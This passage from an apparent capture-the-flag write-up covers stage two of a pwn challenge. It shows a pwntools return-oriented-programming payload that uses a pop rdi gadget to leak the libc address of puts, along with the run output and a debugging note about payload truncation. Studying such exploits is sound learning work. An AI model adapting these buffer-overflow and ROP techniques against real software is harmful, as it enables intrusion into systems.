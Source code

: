 ## Stage 2: Libc Leak
Since we got a way to control ret address , I moved to the next part of the plan , which is to leak libc adress.
From ROPgadget , there is lucky enough to have have a `pop rdi` gadget in it , which makes our libc leak easy as we can send puts@got address to the puts to leak the libc address.
 
```py
pop_rdi = 0x0000000000401323
ret = 0x000000000040101a

def leak_value():
    payload = flat (
    cyclic(32),
    pop_rdi,
    elf.got['puts'],
    elf.plt['puts'],
    elf.sym['main']
)
    return payload

payload = leak_value()

p.recvuntil(b'Enter username:')
p.sendline(b'LITCTF')
p.recvuntil(b'Enter password:')
p.sendline(b'd0nt_57r1ngs_m3_3b775884\x00\nAAAAAALITCTF\x00\n'+payload)
p.recvuntil(b'Goodbye\n')

leak = p.recvline().strip()       
leaked_puts = u64(leak.ljust(8, b'\x00'))
print(hex(leaked_puts))
```
```bash
󰣇 lit_ctf/pwn/2ndlit ❯ python sol.py                                
[*] '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc': pid 27958
0x7275c68375c0
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ whyyy
[*] Process '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc' stopped with exit code -11 (SIGSEGV) (pid 27958)
[*] Got EOF while sending in interactive
```
Yes, We successfully managed to leak the libc address of the puts, but wait why it didn't read to main again.
then after some time looking at the code , i found that read takes 96 bytes , but we are sending 104 bytes , which makes our last tail 8 bytes truncats and does not return to the main.
